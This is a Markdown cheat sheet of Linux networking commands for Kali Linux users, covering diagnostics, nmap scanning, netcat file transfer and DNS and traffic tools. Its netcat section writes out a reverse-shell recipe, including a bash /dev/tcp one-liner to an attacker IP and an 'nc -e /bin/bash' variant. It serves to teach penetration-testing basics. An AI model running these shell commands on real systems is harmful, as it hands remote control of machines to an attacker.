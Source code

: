 # **Networking Commands - Linux Quick Reference**
Recommended OS: Kali Linux

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [Network Troubleshooting](#network-troubleshooting)

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display network info, like IP address.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`ss`**: Show socket statistics (replacement for netstat). `ss -tuln`
- **`whois`**: Retrieve WHOIS information for a domain. `whois example.com`
- **`nmap`**: Scan network for hosts and open ports, for one ip, or a range.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`
- **`mtr`**: Diagnostic tool combining ping and traceroute. `mtr <hostname or ip>`
- **`arp`**: Show or modify the ARP (Address Resolution Protocol) table. `arp -a`
- **`wget`**: Download files from the web. `wget http://example.com/file.zip`


---

## Netcat Commands

- **Host listens on port**:  `nc -lvp 1234` (l-listning, v-verbose, p-port)
- **Client connects to host**:  `nc <hostname or ip> 1234`
- **Scan for certain ports in a range**: `nc -zv <hostname> 1-100` (z-scan without full connection)
- **Send file**:  
  1. Receiver (opens port & prepares to save file):  `nc -lvp 4321 > received_file.txt`  
  2. Sender (connects & sends file to receiver’s IP):  `nc <receiver_ip> 4321 < home/kali/my_file.txt` (must use absolute path)
- **Reverse Shell**:  
  1. Sender/Attacker (listens for connection)::  `nc -lvp 4444`  
  2. Receiver/Victim (connects & gives interactive shell to attacker):  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`
  - Note: On some systems use `nc -l -p 1234 -e /bin/bash`
- **`ncat`**: Netcat's more secure version for encrypted SSL connections. `ncat --ssl -l 1234`

---

## Network Troubleshooting

- **`dig`**: Query DNS.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Show or set hostname.  `hostname`
- **`nfsstat`**: Display NFS (Network File System) statistics. `nfsstat -c`
- **`iwconfig`**: Configure wireless network interfaces. `iwconfig wlan0`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
